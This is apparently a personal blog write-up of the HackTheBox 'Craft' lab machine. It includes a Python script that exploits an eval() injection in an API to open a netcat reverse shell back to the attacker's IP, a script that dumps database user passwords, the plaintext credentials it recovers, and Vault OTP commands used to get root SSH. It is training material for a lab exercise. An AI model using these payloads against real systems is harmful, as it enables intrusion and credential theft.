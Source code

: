 ```yaml
---
title: "HackTheBox - WriteUp 15"
date: 2019-07-16T16:23:16+08:00
description: "HackTheBox 练手 - Craft - Code review"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Craft

Nmap enum found 22(SSH on Host), 6022(SSH on Gogs), 443(Web with Nginx)

## User

Add following lines to `/etc/hosts`:

```
10.10.10.110 api.craft.htb
10.10.10.110 craft.htb
10.10.10.110 gogs.craft.htb
```

Access 443 Port, then found a page telling you based on the API. So Firstly, Access API definition at `api.craft.htb/api/`, Then Clone the API repo `craft-api` from Gogs link inside the index.

After clone, do code review: `./craft_api/api/brew/endpoints/brew.py:43:        if eval('%s > 1' % request.json['abv'])`, that will allow you to spawn a Python reverse shell.

Check the commit log and Issue, you'll have the details and a credential.

So, Since Here, We can write a script to automate the reverse shell process:

```python
#!/usr/bin/env python3

import requests
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

HOST="10.10.16.80"
PORT="4455"

notistr = "Do you already start a netcat listen on your machine as IP {ATTACKH}:{ATTACKP}? (Y/N)".format(ATTACKH=HOST, ATTACKP=PORT)
confirm = input(notistr)
if confirm.upper() != "Y":
    print("Please open nc first!")
    sys.exit(1)


requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

get_apikey = requests.get('https://api.craft.htb/api/auth/login', auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False, timeout=10)
json_response = get_apikey.json()
token = json_response['token']

print("Token!\n")
print(token)

apikeynm = "X-Craft-Api-Token"

custom_head = {apikeynm: token}

payload = {
    "id": 1,
    "brewer": "lesme",
    "name": "lesme",
    "style": "lesme",
    "abv": None
}

abvpld = "__import__('os').system('rm /tmp/f2;mkfifo /tmp/f2;cat /tmp/f2|/bin/sh -i 2>&1|nc {ATTACKH} {ATTACKP} >/tmp/f2')-2".format(ATTACKH=HOST, ATTACKP=PORT)
payload["abv"] = abvpld

print("\nPayload: \n")
print(payload)

push_revsh = requests.post("https://api.craft.htb/api/brew/", headers=custom_head, json=payload, verify=False)
if push_revsh.status_code == 500:
    print("Status code 500, reverse shell might be ok!")
else:
    print("Seems failed! Check the credentials!")
```

Then you have a reverse shell. Now check `/opt/app/craft_api/settings.py`, you'll get a mysql credential, since the app itself is a Python Flask-SQLAlchemy App, it already installed Pymysql.

So, Scripting again, run it on the reverse shell you just got:

```python
#!/usr/bin/python

import pymysql

DB_USER = 'craft'
DB_PASSWD = 'qLGockJ6G2J75O'
DB_DB = 'craft'
DB_HOST = 'db'

connection = pymysql.connect(host=DB_HOST, user=DB_USER, password=DB_PASSWD, charset='utf8', db=DB_DB, cursorclass=pymysql.cursors.DictCursor)

try:
    with connection.cursor() as cursor:
        sql1 = "select * from user;"
        cursor.execute(sql1)
        print(cursor.fetchall())
except:
    print("error detected")
finally:
    connection.close()
```

You'll get dumped user credentials:

```
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
```

User `gilfoyle` is a privileged user, so you can use it login to gogs to check the repos, you will found a `.ssh` keypair with the passphrase, you can use the same password as `gilfoyle` to login into port 22.

Then with the interactive shell, you can get the user.txt.

## Root

It's installed and configured with Vault, a passport management software, so, you just need to issue the three command to read about the OTP creds, then issue a SSH sessions. Copy OTP token it showed, paste into the SSH Passwords, you'll get a root SSH interactive shell.

```bash
$ vault secrets tune ssh
$ vault read ssh/roles/root_otp
$ vault ssh -role root_otp -mode otp root@127.0.0.1
```

You can read the root flag now.

(END)

# Referrence

- https://stackoverflow.com/questions/15401012/difference-between-import-and-import-in-python
- https://stackoverflow.com/questions/46175875/comparison-import-statement-vs-import-function
- https://stackoverflow.com/questions/28231738/import-vs-import-vs-importlib-import-module
- https://mariadb.com/kb/en/library/authentication-plugin-sha-256/
https://mysqlserverteam.com/mysql-8-0-4-new-default-authentication-plugin-caching_sha2_password/
- https://stackoverflow.com/questions/49194719/authentication-plugin-caching-sha2-password-cannot-be-loaded
- https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html
